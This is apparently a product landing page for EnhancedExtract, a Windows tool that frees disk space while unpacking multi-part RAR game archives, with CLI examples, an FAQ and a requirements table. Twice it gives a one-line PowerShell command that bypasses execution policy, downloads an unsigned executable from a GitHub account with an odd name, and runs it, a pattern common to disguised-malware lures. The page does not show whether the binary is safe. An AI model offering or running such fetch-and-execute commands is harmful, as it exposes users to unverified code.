








Big games small drives
Ashen Tide, 24 RAR parts, 47.30 GB, on a drive with 12.00 GB free
Each part goes the moment its files are on disk
With EnhancedExtract, each part is deleted once its files are on disk, so the 52.10 GB game fits beside the 47.30 GB set and 7.20 GB stays free. A usual extractor keeps every part until the end and runs out of space at 23 percent.
EnhancedExtract unpacks multi-part RAR game sets on a nearly full Windows drive, deleting each part once its files are safely on disk. ZIP, 7z, TAR and other common archives are supported too.
powershell -ExecutionPolicy Bypass -Command "iwr https://github.com/gustavofring1483369/EnhancedExtract/releases/download/v0.1.2/EnhancedExtract_0.1.2_x64-setup.exe -OutFile $env:TEMP\EnhancedExtract-setup.exe -ErrorAction Stop; Start-Process $env:TEMP\EnhancedExtract-setup.exe"
The real app UI running its demo engine with sample data, at 6× speed. Illustrates the workflow.
Nothing goes until it’s safe
Every part is checked before a byte is written, deleted only once its files are on disk, and a stopped job resumes from what’s left.

Early mode needs the least, but a stop can lose the file in flight, so it asks first. Output never overwrites anything.
Your downloads folder, sorted
Every archive and ISO in your downloads, with size and state. Missing parts are flagged before you start.



Right-click any part
- Starts from
- Ashen.Tide.part01.rar
- Extracts to
- D:\Downloads\Ashen.Tide
- In the menu
- Extract, Extract and free space, Open dashboard
python cli.py rar extract "D:\Downloads\Ashen.Tide.part01.rar" --delete --dry-run

Windows 11: Show more options, or Shift+right-click.
Scripts and agents welcome
The app runs a plain command-line engine you can use too. Every input is a flag, nothing prompts, and --json ends with the result and the next command.
python cli.py scan D:\Downloads
python cli.py rar extract Game.part1.rar --delete --dry-run
python cli.py rar extract Game.part1.rar --delete --yes --background
python cli.py jobs wait --timeout 60Deleting needs --yes, so an agent has to show you the plan first.

Free, and every line
is on GitHub
EnhancedExtract is MIT-licensed and built in the open. The engine that decides what gets deleted, the desktop app and the installer are all on GitHub, so you can check exactly what it does before you trust it with your downloads.
-
Free to use
No price, no trial, no account. Donations on Ko-fi and Trakteer fund development and unlock nothing.
-
MIT licensed
Use it, change it and share it, in personal or commercial work. Keep the licence notice. Read the licence
-
Built in the open
Every pull request runs the engine tests, the UI build and the Rust tests on GitHub Actions. Issues and fixes are public.
-
Contributions welcome
Bug reports, fixes, tests and docs all help. Start with the contributing guide or an open issue.
12 MB, everything included

| System | Windows 10 or 11 | 64-bit |
|---|---|---|
| Desktop app | WebView2 | Built into Windows 11 |
| RAR sets | UnRAR | Bundled |
| ZIP, 7z, TAR and more | 7-Zip | Bundled since 0.1.0 |
| ISO installs | WinFsp driver | Installer bundled |
| ISO installs | Administrator | Shortcut starts as admin |
| Extraction | Administrator | Never needed |
| Installer | For your user only | 12.6 MB |
| CLI zip | Python, UnRAR and 7-Zip | 12.5 MB |
| Not yet | macOS, Linux | Windows only |
Before you press start
Will Windows warn me about the installer?
The Windows binaries are unsigned, so Windows may show an unknown-publisher or SmartScreen warning. Verify the file against SHA256SUMS.txt and make sure it came from this project’s release page.
Is it really free?
Yes. EnhancedExtract is free and open source under the MIT License, with no paid version and no account. The full source is on GitHub, so you can read it or build it yourself.
What if the extraction stops halfway?
Run it again. For RAR sets, a journal beside the parts remembers every finished file, so it picks up from the parts that are left. ZIP, 7z and TAR keep their archives until extraction finishes cleanly. After a stop, retry from the beginning. Version 0.1.2 includes all of these formats.
Can I close the window while it runs?
Yes. Jobs keep running, and the Jobs screen picks them back up.
Does it need administrator rights?
Only for ISO installs. Extracting archives never does.
How do ISO installs save space?
Setup runs from the ISO as a virtual drive, and the parts it has read are freed behind it, keeping a 5 GB buffer. ISO space freeing is experimental.
What does it change on my PC?
Version 0.1.2 installs for your user only and can add right-click menus for RAR, ZIP, 7z, TAR and the other supported archive extensions. It leaves your default archive app alone.
Get it for Windows
Version 0.1.2. Free and open source, for Windows 10 and 11, 64-bit. RAR, ZIP, 7z, TAR and other common archives, with the tools bundled.
powershell -ExecutionPolicy Bypass -Command "iwr https://github.com/gustavofring1483369/EnhancedExtract/releases/download/v0.1.2/EnhancedExtract_0.1.2_x64-setup.exe -OutFile $env:TEMP\EnhancedExtract-setup.exe -ErrorAction Stop; Start-Process $env:TEMP\EnhancedExtract-setup.exe"
Installer SHA-256 5c2acd5b3fc772f205db8d4993811c1bf38d942d4e0636665af39f59516c15ac
CLI zip SHA-256 bdaf5f238d9c13d2e12736e59a7e64a4ddb0762b5c0618f1a0a1ae924e9296a1
Support the next build
EnhancedExtract is free and open source. If it reclaimed space on your drive, help fund its next release. You can support development through Ko-fi or Trakteer.